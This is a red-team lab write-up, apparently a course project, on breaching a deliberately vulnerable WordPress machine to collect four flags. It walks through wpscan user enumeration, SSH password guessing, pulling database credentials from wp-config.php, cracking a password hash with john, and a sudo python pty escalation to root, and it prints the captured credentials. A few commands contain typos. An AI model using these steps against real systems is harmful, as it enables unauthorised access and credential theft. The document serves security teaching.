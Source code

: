 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... `nmap -sV 192.168.1.110`
  ![https://github.com/TristenMaetzold/CySec-Final-Project/blob/11189184ce3bea51376a4a6e712c68471ddbbe22/Images/nmap.PNG]
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp Netbois
  - 445/tcp Microsoft-ds




The following vulnerabilities were identified on each target:
- Target 1
  - Vulnerable Word Press (wpscan user enumeration)
  - Weak user password
  - Misconfigured User Privileges leading to privilege escalation
  - Unsalted passwords


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -e u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag1
![Flag1](https://github.com/TristenMaetzold/CySec-Final-Project/blob/11189184ce3bea51376a4a6e712c68471ddbbe22/Images/Flag1.PNG)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`
![flag2](https://github.com/TristenMaetzold/CySec-Final-Project/blob/11189184ce3bea51376a4a6e712c68471ddbbe22/Images/Flag2.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.
![dbusername](https://github.com/TristenMaetzold/CySec-Final-Project/blob/11189184ce3bea51376a4a6e712c68471ddbbe22/Images/databasepswrd.PNG)
![Flag3](https://github.com/TristenMaetzold/CySec-Final-Project/blob/d33c069ee7ca41c0fe3fb0b2cf41dcbb9ca1a639/Images/Flag3and4.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag. 
        ![flag4](https://github.com/TristenMaetzold/CySec-Final-Project/blob/11189184ce3bea51376a4a6e712c68471ddbbe22/Images/Flag%204.png)
